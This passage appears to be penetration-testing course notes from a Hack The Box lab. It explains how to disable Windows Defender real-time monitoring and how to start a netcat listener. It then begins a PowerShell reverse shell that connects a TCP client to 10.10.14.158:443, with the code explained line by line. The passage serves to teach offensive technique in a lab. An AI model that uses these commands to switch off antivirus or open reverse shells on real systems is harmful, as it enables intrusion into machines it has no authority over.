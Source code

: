 ```shell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Once the AV is disabled we can run the command.

```
sudo nc -lvnp 443
```

### Calling PowerShell

```shell
powershell -nop -c
```

Executes powershell.exe with no profile (nop) and executes the command/script block (-c) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in cmd.exe.

## Binding A Socket
```bash
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```
Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443). The semi-colon (;) ensures the commands & code are executed sequentially.